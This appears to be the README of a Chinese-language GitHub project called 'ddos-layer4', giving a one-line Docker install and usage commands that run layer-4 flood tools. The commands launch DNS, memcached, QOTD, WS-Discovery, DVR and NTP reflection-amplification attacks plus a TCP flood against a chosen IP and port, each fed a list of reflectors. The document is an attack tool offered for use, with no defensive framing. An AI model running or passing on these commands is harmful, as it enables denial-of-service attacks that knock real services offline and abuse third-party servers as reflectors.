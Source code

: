 ### 安装 （docker）
	apt update -y && apt install docker.io -y && apt install git -y && git clone https://github.com/qq1521575701/ddos-layer4.git && cd ddos-layer4 && docker build -t ddos-layer4 . && docker run -itd --name ddos-layer4 --network host ddos-layer4:latest && docker exec -it ddos /bin/bash

### 使用
	docker exec -it ddos-layer4 ./dns ip port dns.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./meme ip port meme.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./qotd ip port qotd.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./wsd ip port wsd.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./dvr ip port dvr.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./ntp ip port ntp.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./tcp ip port 1 -1 60 &
